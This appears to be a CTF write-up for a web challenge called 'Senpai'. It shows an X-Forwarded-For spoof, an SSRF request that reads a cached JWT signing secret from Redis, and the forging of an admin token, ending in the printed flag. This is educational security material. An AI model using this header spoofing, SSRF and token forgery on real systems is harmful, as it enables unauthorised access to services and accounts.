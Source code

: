 # Senpai

> Rin or Sakura?\
> \
> http://chals.ctf.sg:40201\
> \
> author: Gladiator

### Authentication Logic

The end-goal, of course, is to get to `/flag`, but there is a `role` attribute in the JWT token that we must change to `admin` in order to pass the `IsAdmin` check.

```go
func flagHandler(w http.ResponseWriter, r *http.Request) {
	config.SetupResponse(&w, r)
	role, _ := config.GetTokenRole(r)
	username, err := config.GetTokenUsername(r)
	if err != nil {
		http.Error(w, "An error has occured", http.StatusBadRequest)
		return
	}
	user, _ := data.GetUser(username)
	if (config.TokenValid(r, user.Otp)) == nil {
		if config.IsAdmin(role) {
			fmt.Fprint(w, logic.Flagger())
		}
		return
	}
	return
}

```

Let's look at the registration and login flow. This time, it seems like `user.Otp` is actually the JWT key - each user's key would be different!

```go
func newJWTUserKey() string {
	partOne := strings.Replace(config.GenUUID(), "-", "", -1)
	partTwo := strings.Replace(config.GenUUID(), "-", "", -1)
	partThree := strings.Replace(config.GenUUID(), "-", "", -1)
	newOTP := partOne + partTwo + partThree
	return newOTP
}

func Register(account data.RegisterAccount) bool {
	var newAccount data.UserAccount
	newAccount.Username = account.Username
	newAccount.Password = account.Password
	newOTP := newJWTUserKey()
	newAccount.Otp = newOTP
	newAccount.Verified = "true"
	return data.InsertUser(&newAccount)
}
```

The JWT key is then used to sign the token when we log in.

```go
func loginHandler(w http.ResponseWriter, r *http.Request) {
	config.SetupResponse(&w, r)
	var login data.UserAccount
	err := json.NewDecoder(r.Body).Decode(&login)
	if err != nil {
		http.Error(w, err.Error(), http.StatusBadRequest)
		return
	}
	state, jwtKet := logic.Login(login)
	if state == false {
		http.Error(w, "Account does not exists, or account credentials are wrong", http.StatusBadRequest)
		return
	}
	token, _ := config.CreateToken(login.Username, jwtKet)
	fmt.Fprint(w, "Account logged in, your token is: "+token)
}
```

What's interesting, though, is that there is a caching mechanism that stores each user's JWT key in a Redis cache after logging in. Presumably, in real-world applications such a caching mechanism would save time in performing database lookups each time JWT authentication occurs.

```go
func Login(account data.UserAccount) (bool, string) {
	var user *data.UserAccount
	user, _ = data.GetUser(account.Username)
	if user == nil {
		return false, ""
	}
	if config.CheckPasswordHash(account.Password, user.Password) == false {
		return false, ""
	}
	if user.Verified == "false" {
		return false, ""
	}
	cache.Set(user.Username, user.Otp, 999999999999)
	return true, user.Otp
}
```

Sidenote: the key is only stored for two seconds, so we have to be quick here!

```go
func Set(key string, jwtkey string, exp int) error {
	client := redis.NewClient(&redis.Options{
		Addr:     "localhost:6379",
		Password: "",
		DB:       0,
	})
	err := client.Set(key, jwtkey, time.Second*2).Err()
	if err != nil {
		return err
	}
	return nil

}
```

### SSRF and Obtaining Cached Secrets

There exists a non-admin path, `/sakura` that does allow us to interact with the Redis cache.

```go
func sakuraeHandler(w http.ResponseWriter, r *http.Request) {
	config.SetupResponse(&w, r)
	output := logic.CacheHelper(r)
	fmt.Fprint(w, output)
	return
}
```

However, we could see in the cache-fetching mechanism that the client URL is validated to be `127.0.0.1`.

```go
func IsLocal(ip string) bool {
	return ip == "127.0.0.1"
}
```

```go
func CacheHelper(r *http.Request) string {
	ip, _ := remoteaddr.Parse().IP(r)
	if !config.IsLocal(ip) {
		return "I get older but your lovers stay my age."
	}
	result, err := cache.Get(r.URL.Query().Get("key"))
	if err != nil {
		return ""
	}
	return result
}
```

That leaves us with `/rin`. The handler logic presents us with the all-too-familiar SSRF code:

```go
func HeavensFeel(r *http.Request) http.Response {
	val := config.Process(r)
	if val == "" {
		return http.Response{Status: "500 Internal Server Error", StatusCode: 500, Body: nil}
	}
	resp, err := http.Get(val)
	if err != nil {
		return http.Response{Status: "500 Internal Server Error", StatusCode: 500, Body: nil}
	}
	return *resp
}
```

Again, the client IP is checked. But this time, the logic is slightly different. Instead of using `remoteaddr.Parse().IP(r)`, the server is directly looking at the `X-Forwarded-For` header!

```go
var local string = "X-Forwarded-For"

...

func GetIP(r *http.Request) string {
	return r.Header.Get(local)
}

...

func Process(r *http.Request) string {
	if IsLocal(GetIP(r)) {
		return r.URL.Query().Get("url")
	}
	return ""
}
```

By adding `X-Forwarded-For: 127.0.0.1`, we can access this function and perform an SSRF to the `/sakura` endpoint.

```http
POST /rin?url=http://localhost:8081/sakura?key=socengexp HTTP/1.1
Host: chals.ctf.sg:40201
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhdXRob3JpemVkIjp0cnVlLCJleHAiOjE2NDcyNDI0NDIsInJvbGUiOiJ1c2VyIiwidXNlcm5hbWUiOiJzb2NlbmdleHAifQ.Y56UmyxoibdVHxvFjN03GI_RXeIgVBl76pQZDmih6Mo
X-Forwarded-For: 127.0.0.1

```

As mentioned earlier, the cached secret only exists for 2 seconds after logging in, so we must make the above request right after logging in.

### Gaining the Admin Role

When we have the JWT secret, we could essentially craft any JWT attributes we want.

Using [https://jwt.io/](https://jwt.io) (or any JWT-signing library), supply the JWT secret and change the `role` to `admin`. We now have a new JWT token with an admin role.

![](<../../.gitbook/assets/Screenshot 2022-03-14 at 12.41.08 PM.png>)

Using this new JWT token, simply make a request to `/flag` to get the flag!

The flag is `CTFSG{Rin_Tohsaka_Best_Girl_uwu}`.
